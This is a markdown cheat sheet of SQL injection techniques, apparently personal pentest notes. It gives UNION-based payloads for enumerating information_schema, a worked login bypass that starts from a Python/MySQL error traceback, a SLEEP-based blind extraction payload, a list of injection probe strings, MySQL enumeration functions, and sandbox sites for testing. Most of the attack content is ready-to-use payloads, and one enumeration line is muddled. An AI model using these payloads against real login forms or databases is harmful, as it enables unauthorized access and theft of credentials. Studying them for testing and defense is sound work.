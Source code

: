 ## Tips 

- If you try an injection and you have a good error message, analyze it before going on.

## Example of an error with a login screen
 
- Payload : ```' UNION select table_schema,table_name FROM information_Schema.tables;#```
- Error : 
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
OperationalError: (1222, 'The used SELECT statements have a different number of columns')
```

Here we can see that there is a select on the admin table. So if I change my payload with this information, and an always true statement :
username: `' UNION select 1 FROM admins WHERE 1=1;#`
pass: `1`
We are logged in !

## Blind SQLI with sleep extracting username and password on login screen

- Always with our previous login screen, we will try to extract the username
- `'UNION SELECT SLEEP(1*CHAR_LENGTH(username)) FROM admins;#`

## List$

seclists and payloadallthethings
```
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'  <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```

---


## Sandboxes databases to test 

By @hackerscrolls

SQL Fiddle (sqlfiddle.com)
DB Fiddle (db-fiddle.com)
EverSQL (eversql.com)

EverSQL supports:

Oracle
MySQL
MariaDB
PostreSQL
MS SQL Server
Percona Server
Amazon Aurora MySQL

DB Fiddle supports:

MySQL
SQLite
PostgreSQL
(multiple versions)

SQL Fiddle supports:

Oracle
SQLite
MySQL
PostgreSQL
MS SQL Server 2017

---

## Useful ones in MySQL

current_user()
version()
database()


### information_schema.columns table

table_name / column_name (you can use CONCAT : UNION SELECT 1,2,concat(table_name, ':', column_name) ...) FROM information_schema.columns

Then use the value from column_name to found useful information

SELECT * from <column_name>